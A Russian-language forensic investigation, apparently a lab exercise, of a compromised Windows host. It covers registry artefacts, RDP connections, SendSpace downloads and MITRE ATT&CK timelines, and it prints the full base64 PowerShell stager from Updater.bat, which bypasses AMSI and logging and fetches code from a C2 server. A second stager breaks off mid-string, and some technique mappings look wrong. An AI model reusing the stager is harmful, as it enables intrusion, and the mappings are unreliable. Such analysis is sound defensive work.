  {F38BF404-1D43-42F2-9305-67DE0B28FC23}\explorer.exe (6)
2019-03-10 06:49:31Z
  Microsoft.InternetExplorer.Default (8)
2019-03-10 06:41:13Z
  C:\Users\Wilfred\AppData\Local\Temp\Temp1_iepv.zip\iepv.exe (1)
2019-03-10 06:35:58Z
  C:\Users\Wilfred\AppData\Local\Temp\Temp1_netscan_portable.zip\32-bit\netscan.exe (1)
2019-03-10 06:34:02Z
  Microsoft.Windows.RemoteDesktop (14)
2019-03-09 16:57:13Z
  {F38BF404-1D43-42F2-9305-67DE0B28FC23}\regedit.exe (2)
2019-03-09 16:51:32Z
  {D65231B0-B2F1-4857-A4CE-A8E7C6EA7D27}\rundll32.exe (1)
2019-03-09 16:45:00Z
  {D65231B0-B2F1-4857-A4CE-A8E7C6EA7D27}\notepad.exe (2)
2019-03-09 16:36:29Z
  {D65231B0-B2F1-4857-A4CE-A8E7C6EA7D27}\msiexec.exe (1)
2019-03-09 14:31:04Z
  Microsoft.AutoGenerated.{71DC631C-3512-07AD-1935-7E4D993D86D1} (1)
2019-03-09 14:29:31Z
  C:\Users\Wilfred\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\852CH0Q4\7z1900.exe (1)
2019-03-09 14:16:37Z
  Microsoft.Windows.GettingStarted (14)
  {D65231B0-B2F1-4857-A4CE-A8E7C6EA7D27}\displayswitch.exe (13)
  Microsoft.Windows.StickyNotes (11)
  {D65231B0-B2F1-4857-A4CE-A8E7C6EA7D27}\SnippingTool.exe (10)
  {D65231B0-B2F1-4857-A4CE-A8E7C6EA7D27}\calc.exe (9)
  {D65231B0-B2F1-4857-A4CE-A8E7C6EA7D27}\mspaint.exe (8)
  {D65231B0-B2F1-4857-A4CE-A8E7C6EA7D27}\xpsrchvw.exe (7)
  {D65231B0-B2F1-4857-A4CE-A8E7C6EA7D27}\WFS.exe (6)
  {D65231B0-B2F1-4857-A4CE-A8E7C6EA7D27}\magnify.exe (5)
```

```
listsoft v.20201005
(NTUSER.DAT) Lists contents of user's Software key

listsoft v.20201005
List the contents of the Software key in the NTUSER.DAT hive
file, in order by LastWrite time.

2019-03-10 13:08:15Z 	AccessData
2019-03-10 12:30:38Z 	Microsoft
2019-03-09 14:30:21Z 	7-Zip
2019-03-09 14:18:25Z 	Sysinternals
2019-03-09 14:18:25Z 	Winternals
2019-03-09 14:18:15Z 	AppDataLow
2019-03-09 14:18:14Z 	Policies
```


Так же вопросы вызывают RDP-соединения пользователя Wilfred с хостами 192.168.1.72 и 192.168.1.75 (секция tsclient), а так же установка RDP Wrapper Library (секция sourcelist). 

```
Launching tsclient v.20200924
(NTUSER.DAT) Displays contents of user's Terminal Server Client\Default key
MITRE: T1021.001 (lateral movement)

TSClient
Software\Microsoft\Terminal Server Client\Default
LastWrite Time 2019-03-10 06:35:09Z
  MRU0 -> 192.168.1.75
  MRU1 -> 192.168.1.72

Software\Microsoft\Terminal Server Client\Servers
LastWrite time 2019-03-10 06:34:40Z

192.168.1.72  LastWrite time: 2019-03-09 17:34:27Z
  UsernameHint: Wilfred
192.168.1.75  LastWrite time: 2019-03-10 06:34:40Z
  UsernameHint: Wilfred
```

```
Launching sourcelist v.20221031
sourcelist v.20221031
(ntuser.dat) Get media source for product installs
MITRE: T1204.002 (execution)

ProductName: RDP Wrapper Library
  PackageName       : RDPWInst-v1.6.2.msi
  SourceList\Media\1: ;
  SourceList\Net\1  : C:\Windows\Temp\
```


Итого, из отчета можно составить следующий таймлан действий для учетной записи Milfred с техниками и тактиками MITRE ATT&CK:


На дату 09.03.2019:
1. 14:16:37Z - первоначальная активность (системные утилиты). T1059.003 (Command and Scripting Interpreter: Windows Command Shell). TA0002 (Execution).
2. 14:18:14Z - настройка окружения и автозапуска. T1547.001 (Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder). T1021.002 (Remote Services: SMB/Windows Admin Shares). TA0003 (Persistence).
3. 14:18:25Z - установка Sysinternals BGInfo. T1018 (Remote System Discovery). T1588.002 (Obtain Capabilities: Tool). TA0007 (Discovery).
4. 14:29:31Z - установка 7-Zip (7z1900.exe). T1105 (Ingress Tool Transfer). TA0010 (Exfiltration).
5. 15:35:28Z - работа с файлом passwords.txt. T1555 (Credentials from Password Stores). T1003 (OS Credential Dumping). TA0006 (Credential Access).
6. 16:36:29Z - установка RDP Wrapper (msiexec.exe). T1569.002 (System Services: Service Execution). TA0002 (Execution).
7. 16:50:24Z-16:52:26Z - доступ к SendSpace (file/obeywl, file/0beywl). T1105 (Ingress Tool Transfer). T1048 (Exfiltration Over Alternative Protocol). TA0010 (Exfiltration).
8. 16:57:13Z - работа с реестром (regedit.exe). T1112 (Modify Registry). TA0005 (Defense Evasion).
9. 16:57:35Z - установка персистентности через UserInitMprLogonScript. T1037.005 (Logon Script: Startup). TA0003 (Persistence).
10. 17:34:27Z - RDP подключение к 192.168.1.72. T1021.001 (Remote Desktop Protocol). TA0008 (Lateral Movement).

На дату 10.03.2019 
1. 06:34:02Z - использование Remote Desktop. T1021.001 (Remote Desktop Protocol). TA0008 (Lateral Movement).
2. 06:34:40Z - RDP подключение к 192.168.1.75. T1021.001 (Remote Desktop Protocol). TA0008 (Lateral Movement).
3. 06:35:43Z - работа с сетевыми инструментами (netscan_portable.zip). T1046 (Network Service Scanning). T1018 (Remote System Discovery). TA0007 (Discovery).
4. 06:35:58Z - запуск netscan.exe. T1046 (Network Service Scanning). TA0007 (Discovery).
5. 06:40:02Z - работа с инструментами анализа (iepv.zip). T1588.002 (Obtain Capabilities: Tool). TA0002 (Execution).
6. 06:41:13Z - запуск iepv.exe. T1016 (System Network Configuration Discovery). TA0007 (Discovery).
7. 06:49:46Z - доступ к YouTube и SendSpace. T1071.001 (Application Layer Protocol: Web Protocols). TA0011 (Command and Control).
8. 12:58:26Z - активное использование проводника. T1059.003 (Command and Scripting Interpreter: Windows Command Shell). TA0002 (Execution).
9. 13:03:06Z - запуск RamCapture.exe. T1003 (OS Credential Dumping). T1041 (Exfiltration Over C2 Channel). TA0006 (Credential Access).
10. 13:05:52Z - запуск FTK Imager.exe. T1005 (Data from Local System). T1588.002 (Obtain Capabilities: Tool). TA0009 (Collection).
11. 13:08:15Z - установка AccessData (Forensic Tools). T1588.002 (Obtain Capabilities: Tool). TA0002 (Execution).


### Анализ NTUSER.DAT пользователя support:

Подозрения оказались верными. Я выгрузил ветку реестра относящуюся к пользователю support, сформировал отчет утилитой regreaper и проанализировал его. Вот что мне удалось найти: 

В реестре были изменены настройки автозапуска, а конкретно включен автозапуск для съемных носителей и сетевых дисков: 

```
autorun v.20221109
(NTUSER.DAT, Software) Checks autorun settings
MITRE: T1204 (execution)

Software\Microsoft\Windows\CurrentVersion\Policies\Explorer
LastWrite Time 2019-03-10 06:47:13Z

NoDriveTypeAutoRun   0x0091
NoDriveAutoRun value not found.

Software\Microsoft\Windows\CurrentVersion\Explorer\AutoplayHandlers
LastWrite Time 2019-03-10 06:47:09Z

DisableAutoplay      0x0000

1 - Autoplay disabled
0 - Autoplay enabled
```


В отчете так же зафиксирован факт установки и запуска утилиты SysInternals BGInfo - инструмента для сбора информации о системе:

```
sysinternals v.20220824
MITRE: T1204 (program execution)

SysInternals
Software\SysInternals
LastWrite Time 2019-03-10 06:47:14Z

BGInfo [2019-03-10 06:47:14Z]
  EulaAccepted: 1
```


Через Internet explorer данный пользователь на том же файлообменнике `http://sendspace.com` открыл 3 ссылки `http://sendspace.com/file/fn3pal`, `https://www.sendspace.com/file/vrbg1p` и `https://www.sendspace.com/file/vrbg1p`:

```
typedurls v.20201012
(NTUSER.DAT) Returns contents of user's TypedURLs key.

TypedURLs
Software\Microsoft\Internet Explorer\TypedURLs
LastWrite Time 2019-03-10 12:29:33Z
  url1 -> http://sendspace.com/file/qlaheb
  url2 -> https://www.sendspace.com/file/vrbg1p
  url3 -> http://sendspace.com/
  url4 -> http://sendspace.com/file/fn3pal
  url5 -> http://go.microsoft.com/fwlink/p/?LinkId=255141
----------------------------------------
typedurlstime v.20201012
(NTUSER.DAT) Returns contents of user's TypedURLsTime key.

TypedURLsTime
Software\Microsoft\Internet Explorer\TypedURLsTime
LastWrite Time 2019-03-10 12:29:33Z
  url1 -> 2019-03-10 12:29:33Z (http://sendspace.com/file/qlaheb)
  url2 -> 2019-03-10 07:07:07Z (https://www.sendspace.com/file/vrbg1p)
  url3 -> 2019-03-10 07:06:54Z (http://sendspace.com/)
  url4 -> 2019-03-10 06:58:23Z (http://sendspace.com/file/fn3pal)
  url5 -> 0
```

В папке C:\Windows\Temp появились файлы 111.bat, 2.bat и 3.bat

```
comdlg32 v.20200904

Software\Microsoft\Windows\CurrentVersion\Explorer\ComDlg32
LastWrite Time 2019-03-10 06:59:06Z
CIDSizeMRU
LastWrite: 2019-03-10 12:30:05Z
Note: All value names are listed in MRUListEx order.

  iexplore.exe

LastVisitedPidlMRU
LastWrite time: 2019-03-10 12:30:05Z
Note: All value names are listed in MRUListEx order.

  iexplore.exe - My Computer\C:\Windows\Temp

OpenSavePidlMRU
LastWrite time: 2019-03-10 12:30:05Z
OpenSavePidlMRU\*
LastWrite Time: Sun Mar 10 12:30:05 2019
Note: All value names are listed in MRUListEx order.

  My Computer\C:\Windows\Temp\3.bat
  My Computer\C:\Windows\Temp\2
  My Computer\C:\Windows\Temp\111

OpenSavePidlMRU\bat
LastWrite Time: Sun Mar 10 12:30:05 2019
Note: All value names are listed in MRUListEx order.

  My Computer\C:\Windows\Temp\3.bat
```

```
UserAssist
Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist
LastWrite Time 2019-03-10 06:47:14Z

Settings\NoLog value not found.

Analysis Tip: The "Settings\NoLog" value set to "1" disables the creation of new entries on XP.

Ref: https://blog.didierstevens.com/programs/userassist/

{CEBFF5CD-ACE2-4F4F-9178-9926F41749EA}
2019-03-10 12:30:11Z
  {D65231B0-B2F1-4857-A4CE-A8E7C6EA7D27}\cmd.exe (3)
2019-03-10 12:29:12Z
  Microsoft.InternetExplorer.Default (3)
2019-03-10 07:11:19Z
  {D65231B0-B2F1-4857-A4CE-A8E7C6EA7D27}\notepad.exe (1)
2019-03-10 07:10:34Z
  {F38BF404-1D43-42F2-9305-67DE0B28FC23}\explorer.exe (1)
2019-03-10 07:08:47Z
  {D65231B0-B2F1-4857-A4CE-A8E7C6EA7D27}\taskmgr.exe (1)
2019-03-10 07:08:02Z
  {F38BF404-1D43-42F2-9305-67DE0B28FC23}\Temp\2.bat (1)
2019-03-10 06:59:18Z
  {F38BF404-1D43-42F2-9305-67DE0B28FC23}\Temp\111.bat (1)
2019-03-10 06:45:26Z
```

Хотя исходные имена файлов на файлообменнике не видны, но можно провести временную корелляцию между посещением ссылок и исполнением файлов:

1. 06:58:23Z - доступ к sendspace.com/file/fn3pal
2. 06:59:18Z - первый запуск 111.bat
3. 07:07:07Z - доступ к sendspace.com/file/vrbg1p
4. 07:08:02Z - запуск 2.bat
5. 12:29:33Z - доступ к sendspace.com/file/qlaheb
6. 12:30:05Z - запуск 3.bat


Итого, из отчета можно составить следующий таймлан действий для учетной записи support на дату 10.03.2019 с техниками и тактиками MITRE ATT&CK:

1. 06:45:48Z - создание учетной записи Support. T1136.001 (Create Account: Local Account). TA0003 (Persistence).
2. 06:47:09Z - изменение автозагрузки и настроек автозапуска. T1547.001 (Boot or Logon Autostart Execution: Registry Run Keys). T1021.002 (Remote Services: SMB/Windows Admin Shares). TA0003 (Persistence).
3. 06:47:14Z - установка Sysinternals BGInfo. T1018 (Remote System Discovery). T1588.002 (Obtain Capabilities: Tool). TA0007 (Discovery).
4. 06:58:23Z - доступ к sendspace.com/file/fn3pal. T1105 (Ingress Tool Transfer). T1048 (Exfiltration Over Alternative Protocol). TA0010 (Exfiltration).
5. 06:59:18Z - первый запуск 111.bat. T1059.003 (Command and Scripting Interpreter: Windows Command Shell). TA0002 (Execution).
6. 07:07:07Z - доступ к sendspace.com/file/vrbg1p. T1105 (Ingress Tool Transfer). T1048 (Exfiltration Over Alternative Protocol). TA0010 (Exfiltration).
7. 07:08:02Z - запуск 2.bat. T1059.003 (Command and Scripting Interpreter: Windows Command Shell). TA0002 (Execution).
8. 07:08:47Z - запуск taskmgr.exe. T1059.003 (Command and Scripting Interpreter). T1047 (Windows Management Instrumentation). TA0007 (Discovery).
9. 07:10:34Z - запуск explorer.exe. T1059.003 (Command and Scripting Interpreter). T1204.002 (User Execution: Malicious File). TA0002 (Execution).
10. 07:11:19Z - запуск notepad.exe. T1059.003 (Command and Scripting Interpreter). TA0002 (Execution).
11. 12:23:43Z - вход в систему через учетную запись Support. T1078 (Valid Accounts). TA0005 (Defense Evasion).
12. 12:29:33Z - доступ к sendspace.com/file/qlaheb. T1105 (Ingress Tool Transfer). T1048 (Exfiltration Over Alternative Protocol). TA0010 (Exfiltration).
13. 12:30:05Z - запуск 3.bat и доступ IE к Temp. T1059.003 (Command and Scripting Interpreter). T1204.002 (User Execution: Malicious File). TA0002 (Execution).
14. 12:30:11Z - запуск cmd.exe. T1059.001 (PowerShell). T1059.003 (Windows Command Shell). TA0002 (Execution).


## Проверка истории браузера и загрузок

Проанализируем историю браузера и загруженные файлы пользователя Wilfred, для этого воспольуемся встроенным функционалом autopsy (Data Artifacts - Web History и Web Downloads):

История браузера (WebCacheV01.dat):



В истории браузера фигурируют уже попадавшиеся в ходе анализа ранее обращения к ресурсам файлообменника sendspace (`https://www.sendspace.com/file/fn3pal`, `https://www.sendspace.com/file/vrbg1p` и `https://www.sendspace.com/file/qlaheb`).

Так же смущают нестандартные вызовы доменов Mictosoft незадолго до перехода на sendspace:

```
fpt2.microsoft.com/Clear.HTML?ctx=Ls1.0&session_id=57abc47c-fd9f-41fa-b18d-a23f98ee2295
fpt.microsoft.com/tags?session_id=57abc47c-fd9f-41fa-b18d-a23f98ee2295
```

В остальном - ничего подозрительного не просматривается.

Посмотрим на загрузки:




- Первый файл - `7z1900.exe` похоже просто установщик 7zip, на всякий случай я проверил его хэш на virustotal, он безопасен.
- Далее идет уже попадавшийся ранее `Updater.bat`, он точно требует изучения.
- Затем идет архив `Refund_form.zip`, смущает слишком "говорящее" название, на всякий случай, надо будет проверить соответсвует ли ему содержимое.  
- Далее идет несколько файлов с числовыми именами в папке Temp и пара утилит для разведки, такое соседство не может не смущать, так же проверим эти файлы.


Посмотрим на расположение скачанных подозрительных файлов для установления временных меток:

`Updater.bat`:


`Refund_form.zip` почему то не понравился autopsy, рядом с файлом весит метка о высоком вирусном рейтинге:





Рядом с архивом находится одноименная распакованная папка с файлом `Refund_form.lnk` , теперь становится понятно что именно не понравилось autopsy. В файле с расширением lnk - совсем не то, что должно быть, а закодированный скрипт для powershell! Проанализируем данный файл позднее.


Подозрительные файлы из загрузок в папке Temp:




Зафиксируем время создания подозрительных файлов приведя все к одному часовому поясу - UTC+0 (от MSK надо отнять 3 часа), поскольку volatility использует именно его:

09.03.2019:

- 16:51:32 - `Updater.bat`
- 14:26:02 - `Refund_form.zip`
- 14:31:04 - `Refund_form.lnk`
- 15:52:03 - `RDPWInst-v1.6.2.msi` 
- 16:51:32 - `1`

10.03.2019:

- 06:59:06 - `111.bat`
- 07.07.52 - `2.bat`
- 12:30.05 - `3.bat`


## Анализ подозрительных файлов:

Чтобы глубже разобраться в методике атаки необходимо проанализировать содержимое подозрительных файлов, найденных ранее.  Для их анализа, я буду использовать autopsy (просмотр содержимого и md5), CyberChef (декодирование), https://www.virustotal.com/ (анализ по хэшу). Попытка выгрузить файлы вызывает срабатывание антивируса (на примере Update.bat), что логично. 

Демонстрация просмотра содержимого, механизма выгрузки, простмотр MD5 и срабатывание антивируса:











### Анализ Updater.bat


Содержимое C:\Users\Wilfred\AppData\Roaming\Identities\Updater.bat полностью соответствует, тому что было найдено при запуске `volatility consoles`, там же разобран исполняемый код:

```text
powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBlAFIAUwBpAE8ATgBUAGEAQgBsAEUALgBQAFMAVgBlAHIAUwBJAE8ATgAuAE0AYQBqAE8AcgAgAC0AZwBFACAAMwApAHsAJABHAFAARgA9AFsAcgBlAGYAXQAuAEEAUwBzAEUAbQBiAGwAeQAuAEcARQB0AFQAWQBQAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAEUAdABGAGkAZQBgAGwAZAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBmACgAJABHAFAARgApAHsAJABHAFAAQwA9ACQARwBQAEYALgBHAGUAVABWAEEAbAB1AGUAKAAkAE4AVQBsAGwAKQA7AEkARgAoACQARwBQAEMAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQApAHsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9ADAAfQAkAFYAQQBsAD0AWwBDAG8AbABMAGUAYwB0AEkATwBuAHMALgBHAGUAbgBFAHIASQBDAC4ARABpAGMAdABJAG8ATgBBAHIAeQBbAHMAVABSAEkATgBnACwAUwBZAFMAdABlAG0ALgBPAEIAagBFAEMAVABdAF0AOgA6AG4ARQBXACgAKQA7ACQAVgBBAGwALgBBAEQAZAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAdgBBAGwALgBBAGQARAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABHAFAAQwBbACcASABLAEUAWQBfAEwATwBDAEEATABfAE0AQQBDAEgASQBOAEUAXABTAG8AZgB0AHcAYQByAGUAXABQAG8AbABpAGMAaQBlAHMAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABQAG8AdwBlAHIAUwBoAGUAbABsAFwAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAD0AJAB2AEEATAB9AEUATABTAGUAewBbAFMAYwByAEkAcAB0AEIAbABPAEMASwBdAC4AIgBHAEUAVABGAGkAZQBgAGwARAAiACgAJwBzAGkAZwBuAGEAdAB1AHIAZQBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApAC4AUwBFAHQAVgBhAGwAdQBFACgAJABuAFUATABsACwAKABOAGUAdwAtAE8AYgBqAGUAYwBUACAAQwBvAGwATABlAEMAdABJAE8ATgBzAC4ARwBFAE4ARQBSAGkAQwAuAEgAYQBzAEgAUwBFAFQAWwBzAFQAUgBJAG4ARwBdACkAKQB9AFsAUgBlAGYAXQAuAEEAUwBTAGUATQBiAEwAWQAuAEcAZQBUAFQAeQBwAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAfAA/AHsAJABfAH0AfAAlAHsAJABfAC4ARwBlAHQARgBJAGUAbABEACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAVABWAEEAbAB1AEUAKAAkAG4AVQBsAEwALAAkAFQAUgB1AGUAKQB9ADsAfQA7AFsAUwBZAFMAVABFAG0ALgBOAGUAdAAuAFMARQBSAFYAaQBjAGUAUABvAGkAbgB0AE0AQQBOAEEAZwBFAHIAXQA6ADoARQBYAFAAZQBDAFQAMQAwADAAQwBPAG4AVABpAE4AVQBlAD0AMAA7ACQAVwBjAD0ATgBlAHcALQBPAEIAagBlAEMAVAAgAFMAWQBTAHQAZQBtAC4ATgBFAHQALgBXAEUAQgBDAEwASQBlAE4AdAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHcAYwAuAEgARQBBAEQARQByAFMALgBBAEQARAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAFcAQwAuAFAAcgBPAFgAWQA9AFsAUwBZAHMAdABFAG0ALgBOAEUAdAAuAFcARQBCAFIAZQBRAFUAZQBTAHQAXQA6ADoARABlAEYAYQB1AGwAdABXAGUAQgBQAFIAbwB4AFkAOwAkAFcAQwAuAFAAUgBPAHgAeQAuAEMAcgBFAEQAZQBuAHQASQBhAEwAUwAgAD0AIABbAFMAWQBTAFQAZQBtAC4ATgBFAFQALgBDAHIAZQBEAGUAbgB0AGkAQQBsAEMAYQBjAEgARQBdADoAOgBEAEUAZgBhAHUAbABUAE4AZQB0AHcATwBSAGsAQwBSAGUARABFAE4AdABpAGEATABzADsAJABTAGMAcgBpAHAAdAA6AFAAcgBvAHgAeQAgAD0AIAAkAHcAYwAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwBZAHMAVABFAE0ALgBUAGUAWABUAC4ARQBuAGMAbwBEAEkATgBHAF0AOgA6AEEAUwBDAEkASQAuAEcARQB0AEIAeQBUAEUAUwAoACcAXQBoAHEAMQBqACkAYwAjADwAWQA1AEYAUgA4AFgALwBCAHYAYQB3AHsAJgA2AC4ARQAhAD4ASwB+AHoATQAlACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAHIARwBzADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBvAFUAbgB0AF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAGIAWABPAFIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAcwBlAHIAPQAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgA3ADEAOgA4ADAAJwA7ACQAdAA9ACcALwBuAGUAdwBzAC4AcABoAHAAJwA7ACQAVwBjAC4ASABlAGEARABFAFIAUwAuAEEAZABEACgAIgBDAG8AbwBrAGkAZQAiACwAIgBzAGUAcwBzAGkAbwBuAD0AagArAGYAdgA3AFMAMQBUAEEAcwBhAG4ASABsAHIAMwBzAGIARAB1AHIAbgBzAHkAZAByADQAPQAiACkAOwAkAEQAYQBUAEEAPQAkAFcAQwAuAEQATwB3AG4ATABvAGEARABEAEEAVABhACgAJABTAGUAcgArACQAdAApADsAJABpAFYAPQAkAGQAQQB0AGEAWwAwAC4ALgAzAF0AOwAkAEQAQQBUAEEAPQAkAGQAQQB0AGEAWwA0AC4ALgAkAGQAQQB0AGEALgBsAGUATgBHAHQAaABdADsALQBqAE8ASQBuAFsAQwBoAEEAUgBbAF0AXQAoACYAIAAkAFIAIAAkAEQAYQB0AEEAIAAoACQASQBWACsAJABLACkAKQB8AEkARQBYAA==
```


Virustotal знает о данном файле и опознает его как вирус. На графе видно взаимодействие с ip-адресом 192.168.1.71, т.е. C2-сервером, найденным ранее при исследовании дампа памяти.











### Анализ 111.bat

Далее посмотрим содержимое C:\Windows\temp\111.bat , оно немного отличается от предыдущего:

```text
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBFAHIAcwBJAE8ATgBUAGEAQgBMAGUALgBQAFMAVgBlAFIAcwBpAE8AbgAuAE0AQQBKAG8AUgAgAC0AZwBFACAAMwApAHsAJABHAFAARgA9AFsAUgBlAGYAXQAuAEEAcwBzAEUAbQBCAEwAeQAuAEcARQBUAFQAWQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAEUAdABGAGkAZQBgAEwARAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBmACgAJABHAFAARgApAHsAJABHAFAAQwA9ACQARwBQAEYALgBHAEUAdABWAEEATAB1AEUAKAAkAE4AVQBsAGwAKQA7AEkARgAoACQARwBQAEMAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQApAHsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9ADAAfQAkAHYAQQBMAD0AWwBDAE8AbABMAEUAYwBUAGkAbwBOAHMALgBHAGUATgBFAFIASQBjAC4ARABpAEMAVABJAE8AbgBBAFIAeQBbAFMAVAByAGkATgBHACwAUwBZAFMAdABlAG0ALgBPAGIAagBFAGMAdABdAF0AOgA6AE4ARQB3ACgAKQA7ACQAdgBhAEwALgBBAEQAZAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAdgBhAGwALgBBAEQAZAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABHAFAAQwBbACcASABLAEUAWQBfAEwATwBDAEEATABfAE0AQQBDAEgASQBOAEUAXABTAG8AZgB0AHcAYQByAGUAXABQAG8AbABpAGMAaQBlAHMAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABQAG8AdwBlAHIAUwBoAGUAbABsAFwAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAD0AJAB2AGEAbAB9AEUATABTAGUAewBbAFMAYwBSAGkAcAB0AEIAbABPAEMAawBdAC4AIgBHAGUAdABGAGkARQBgAEwARAAiACgAJwBzAGkAZwBuAGEAdAB1AHIAZQBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApAC4AUwBFAFQAVgBhAEwAdQBFACgAJABOAFUATABMACwAKABOAGUAVwAtAE8AYgBKAEUAQwBUACAAQwBvAGwAbABlAEMAVABpAE8AbgBTAC4ARwBFAG4AZQBSAEkAYwAuAEgAYQBTAGgAUwBFAHQAWwBzAHQAcgBpAE4AZwBdACkAKQB9AFsAUgBlAEYAXQAuAEEAUwBzAGUATQBiAGwAeQAuAEcAZQB0AFQAeQBwAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAfAA/AHsAJABfAH0AfAAlAHsAJABfAC4ARwBlAHQARgBpAGUAbABkACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAEUAdABWAEEATAB1AGUAKAAkAG4AdQBMAGwALAAkAFQAUgB1AEUAKQB9ADsAfQA7AFsAUwB5AFMAVABFAG0ALgBOAGUAVAAuAFMAZQBSAHYASQBjAEUAUABvAGkAbgB0AE0AYQBOAEEARwBlAHIAXQA6ADoARQB4AFAARQBjAFQAMQAwADAAQwBvAE4AVABpAE4AdQBFAD0AMAA7ACQAVwBjAD0ATgBlAHcALQBPAGIAagBFAEMAdAAgAFMAe